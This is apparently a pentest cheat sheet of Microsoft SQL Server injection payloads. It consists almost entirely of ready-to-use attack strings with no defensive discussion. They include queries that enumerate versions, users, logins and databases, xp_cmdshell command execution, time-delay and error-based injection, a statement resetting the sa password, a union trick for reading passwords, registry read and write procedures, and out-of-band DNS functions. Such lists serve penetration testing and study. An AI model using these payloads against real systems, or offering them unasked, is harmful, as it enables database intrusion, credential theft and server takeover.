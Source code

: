 SQL Server Payload
========================================

Common Payloads
----------------------------------------
- Version
- ``SELECT @@version``
- ``SELECT SERVERPROPERTY('Edition');``
- ``SELECT SERVERPROPERTY('EngineEdition');``
- Comment
- ``SELECT 1 -- comment``
- ``SELECT /*comment*/1``
- Space
- ``0x01 - 0x20``
- User Information
- ``SELECT user_name()``
- ``SELECT system_user``
- ``SELECT user``
- ``SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID``
- User permissions
- ``select IS_SRVROLEMEMBER('sysadmin')``
- ``select IS_SRVROLEMEMBER('db_owner')``
- List User
- ``SELECT name FROM master..syslogins``
- Database Information
- ``SELECT name FROM master..sysdatabases``
- ``select concat_ws(table_schema,table_name,column_name) from information_schema.columns``
- ``select quotename(name) from master..sysdatabases FOR XML PATH('')``
- Execute the command
- ``EXEC xp_cmdshell 'net user'``
- Ascii
- ``SELECT char(0x41)``
- ``SELECT ascii('A')``
- ``SELECT char(65)+char(66)`` => return ``AB``
- Delay
- ``WAITFOR DELAY '0:0:3'`` pause for 3 seconds
- Change Password
- ``ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'``
- Trick
- ``id=1 union:select password from:user``
- File reading
- OpenRowset
- Current query statement
- ``select text from sys.dm_exec_requests cross apply sys.dm_exec_sql_text(sql_handle)``
- hostname
- Used to determine whether the station library is separated
- ``select host_name()``
- ``exec xp_getnetname``
- Server Information
- ``exec xp_msver``
- System Configuration
- ``select * from sys.configurations;``

Registry Reading and Write
----------------------------------------
- ``xp_regread``
- ``exec xp_regread N'HKEY_LOCAL_MACHINE', N'SYSTEM\CurrentControlSet\Services\MSSEARCH'``
- ``xp_regwrite``
- ``xp_regdeletvalue``
- ``xp_regdeletkey``
- ``xp_regaddmultistring``

Report an error injection
----------------------------------------
- ``1=convert(int,(db_name()))``

Common functions
----------------------------------------
- SUSER_NAME()
- USER_NAME()
- PERMISSIONS()
- DB_NAME()
- FILE_NAME()
- TYPE_NAME()
- COL_NAME()

DNS OOB
----------------------------------------
- fn_xe_file_target_read_file
- fn_get_audit_file
- fn_trace_gettable

Other commonly used stored procedures
----------------------------------------
- sp_execute_external_script
- SP_MAKEWEBTask
- sp_OACreate
- sp_OADestroy
- sp_OAGetErrorInfo
- sp_OAGetProperty
- sp_OAMethod
- sp_OASetProperty
- sp_OAStop
- xp_cmdshell
- xp_dirtree
- xp_enumerrorlogs
- xp_enumgroups
- xp_fixeddrives
- xp_getfiledetails
- xp_loginconfig
